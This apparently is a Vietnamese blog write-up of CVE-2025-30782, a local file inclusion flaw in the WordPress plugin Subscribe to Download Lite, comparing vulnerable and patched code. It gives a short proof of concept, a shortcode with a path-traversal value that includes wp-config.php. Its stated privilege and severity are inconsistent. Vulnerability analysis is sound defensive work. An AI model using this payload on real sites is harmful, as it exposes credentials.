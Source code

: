 ```yaml
---
title: CVE-2025-30782 Analysis & POC
description: Security Vulnerability in WordPress Subscribe to Download Lite Plugin.
date: 2025-10-16 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Plugin **Subscribe to Download Lite** phiên bản **≤ 1.2.9** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-30782](https://www.cve.org/CVERecord?id=CVE-2025-30782)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.2.9
* **Patched Versions**: 1.3.0
* **CVSS severity**: Low (7.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Subscribe to Download Lite Plugin](https://wordpress.org/plugins/subscribe-to-download-lite/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Subscribe to Download Lite**: **1.2.9** (vulnerable) và **1.3.0** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```phtml {filename="form-template.php v1.2.9" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">
        <?php
        do_action('stdl_before_form', $form_details);

        if (file_exists(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php')) {
            include(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php');
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

Trong phiên bản lỗi, `$form_template` được concat vào chuỗi và include nhưng không xác thực giá trị đầu vào => nguy cơ LFI xảy ra, ví dụ:

```php
$form_template = '../../../../../../../wp-config'
```

**Bản vá**:

```phtml {filename="form-template.php v1.3.0" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">

        <?php
        do_action('stdl_before_form', $form_details);

        $base_dir = realpath(STDL_PATH . 'inc/views/frontend/form-templates') . DIRECTORY_SEPARATOR;
        $sanitized_template = basename($form_template) . '.php';
        $file_path = realpath($base_dir . $sanitized_template);

        if ($file_path && strpos($file_path, $base_dir) === 0 && file_exists($file_path)) {
            include($file_path);
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

Bản vá sử dụng [`basename()`](https://www.php.net/manual/en/function.basename.php) để lấy phần tên file của `$form_template` loại bỏ các ký tự traversal sequence `../`, ví dụ:

```py
../../../../../../payload.pdf -> payload.pdf
```

Sau đó concat vào `$base_dir` và lấy đường dẫn tuyệt đối bằng [`realpath`](https://www.php.net/manual/en/function.realpath.php) rồi `include()` => triệt tiêu hoàn toàn khả năng **LFI**.
 
### Vulnerable Code 
`form-template.php` chứa code có lỗ hổng ở trên được gọi trong `stdl-shortcode.php`

```phtml {filename="stdl-shortcode.php v1.2.9" hl_lines=[8, 18]}
<?php
$form_template = (!empty($atts['template'])) ? $atts['template'] : $form_details['layout']['template'];
if (isset($_COOKIE['stdl_encryption_key']) && $this->check_if_already_subscribed($_COOKIE['stdl_encryption_key']) && empty($form_details['general']['always_show'])) {
    // other logic
} else {
    // other logic
    if ($display_type == 'direct') {
        include(STDL_PATH . 'inc/views/frontend/form-template.php');
    } else {
        ?>
        <div class="stdl-popup-outerwrap <?php echo esc_attr($popup_alias_class); ?>">
            <input type="button" class="stdl-popup-trigger stdl-popup-<?php echo esc_attr($form_template); ?>" value="<?php echo esc_attr($popup_trigger_text); ?>">
            <div class="stdl-popup-innerwrap" style="display:none;">
                <div class="stdl-overlay stdl-popup-wrapper">

                    <div class="stdl-popup-contetn-wrap">
                        <a href="javascript:void(0)" class="stdl-popup-close"><i class="fas fa-times"></i></a>
                            <?php include(STDL_PATH . 'inc/views/frontend/form-template.php');
                            ?>
                    </div>
                </div>
            </div>
        </div>
        <?php
    }
}
```

`$form_template` là giá trị của `$atts['template']`

Theo kinh nghiệm phân tích CVE trên WordPress plugin của tôi, `$atts` thường là các attribute của shortcode, ví dụ:

```
[pornhub id=69]
```

Có thể thấy rằng file `form-template.php` **luôn được include** trong khối `if-else` nằm bên trong phần `else`, **khi cookie `stdl_encryption_key` không tồn tại** (tức là người dùng chưa đăng ký hoặc chưa có khóa mã hóa hợp lệ).

`stdl-shortcode.php` được `include` trong callback của shortcode `subscribe_to_download_form` với `atts` là mảng các attribute của shortcode.

```php {filename="class-stdl-shortcode.php v1.2.9" hl_lines=[2,8]}
function __construct() {
    add_shortcode('subscribe_to_download_form', array($this, 'generate_shortcode_output'));
}

function generate_shortcode_output($atts) {
    wp_enqueue_style('stdl-frontend-custom', STDL_CSS_DIR . '/stdl-custom.css', array(), STDL_VERSION);
    ob_start();
    include(STDL_PATH . 'inc/views/frontend/stdl-shortcode.php');
    $form_html = ob_get_contents();
    ob_clean();
    return $form_html;
}
```

## Exploit
### Proof of Concept (PoC)

#### Step 1

Đăng nhập vào WordPress bằng tài khoản Contributor có đặc quyền thấp nhất để tạo post.

#### Step 2

Tạo post với shortcode

```shortcode
[subscribe_to_download_form template='../../../../../../../wp-config']
```

**Result**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

Phiên bản **≤ 1.2.9** của Subscribe to Download Lite cho phép LFI vì `include()` dùng `$atts['template']` chưa được xác thực; lỗ hổng đã được vá trong **1.3.0** bằng `basename()` + `realpath()` và kiểm tra `base_dir`. Cập nhật ngay.

## Key takeaways

* Input từ shortcode không được tin cậy — không include trực tiếp.
* Patch (v1.3.0) dùng `basename()` + `realpath()` + so sánh với thư mục cho phép.
* Hành động: cập nhật plugin, whitelist/validate attributes.
* Giám sát logs cho ký tự `../` trong tham số template.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Subscribe to Download Lite Plugin <= 1.2.9 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/subscribe-to-download-lite/vulnerability/wordpress-subscribe-to-download-lite-plugin-1-2-9-local-file-inclusion-vulnerability?_s_id=cve)